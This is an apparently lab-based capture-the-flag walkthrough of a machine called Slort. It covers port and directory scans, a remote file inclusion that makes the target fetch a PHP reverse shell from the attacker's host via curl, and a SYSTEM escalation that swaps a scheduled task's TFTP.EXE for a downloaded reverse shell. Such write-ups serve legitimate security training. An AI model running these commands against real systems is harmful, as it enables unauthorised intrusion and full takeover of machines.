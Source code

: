 # Slort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.53 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 21:12 +08
Nmap scan report for 192.168.233.53
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Fail

Does not allow anonymous logins.

### RFI --> User Shell

Port 4443 and 8080 host the same service:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on the site and found a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.233.53:8080 -t 100                  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.233.53:8080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/30 21:18:11 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 345] [--> http://192.168.233.53:8080/img/]
/site                 (Status: 301) [Size: 346] [--> http://192.168.233.53:8080/site/]
<TRUNCATED>
```

The `/site` directory contained a basic corporate page, but the most interesting part was the URL:

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

This looks like it's vulnerable to a file inclusion exploit. I tested this and it is RFI for this case:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

We can grab a PHP Reverse shell for Windows from this page:

{% embed url="https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php" %}

Afterwards, we just need to execute it:

```
$ curl http://192.168.233.53:8080/site/index.php?page=http://192.168.45.161/rev.php
```

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Cronjob --> SYSTEM Shell

The `C:\` directory contained a `Backup` folder that looked interesting:

```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

07/20/2020  07:08 AM    <DIR>          Backup
12/07/2019  02:14 AM    <DIR>          PerfLogs
05/04/2022  01:06 AM    <DIR>          Program Files
12/03/2021  09:22 AM    <DIR>          Program Files (x86)
12/03/2021  09:29 AM    <DIR>          Users
05/04/2022  01:52 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp

C:\Backup>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  07:08 AM    <DIR>          .
07/20/2020  07:08 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.EXE
```

`info.txt` basically told us what to do:

```
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>icacls TFTP.EXE
icacls TFTP.EXE
TFTP.EXE BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

We can modify the `TFTP.EXE` file and replace it with our own reverse shell to get a SYSTEM shell after the scheduled task executes.

```
C:\Backup>move TFTP.EXE old.exe
move TFTP.EXE old.exe
        1 file(s) moved.

C:\Backup>powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE 
powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE
```

After a few minutes, the task would execute and give us a administrator reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Rooted!
